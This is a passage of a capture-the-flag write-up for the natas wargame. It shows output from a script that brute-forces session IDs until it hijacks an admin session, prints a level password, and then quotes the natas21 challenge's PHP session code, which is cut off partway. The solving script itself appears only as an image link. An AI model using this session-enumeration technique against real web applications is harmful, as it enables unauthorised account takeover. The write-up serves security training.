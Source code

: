 Output

```text
[-] 1 out of 640 is not a admin session.
[-] 2 out of 640 is not a admin session.
[-] 3 out of 640 is not a admin session.
[-] 4 out of 640 is not a admin session.
...
[-] 278 out of 640 is not a admin session.
[-] 279 out of 640 is not a admin session.
[-] 280 out of 640 is not a admin session.
[+] 281 out of 640 is a admin session.
</html> an admin. The credentials for the next level are:<br><pre>Username: natas20 Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>script>
```

eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

## natas21

```php
<?

function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) { 
    //debug("MYOPEN $path $name"); 
    return true; 
}

/* we don't need this */
function myclose() { 
    //debug("MYCLOSE"); 
    return true; 
}

function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
```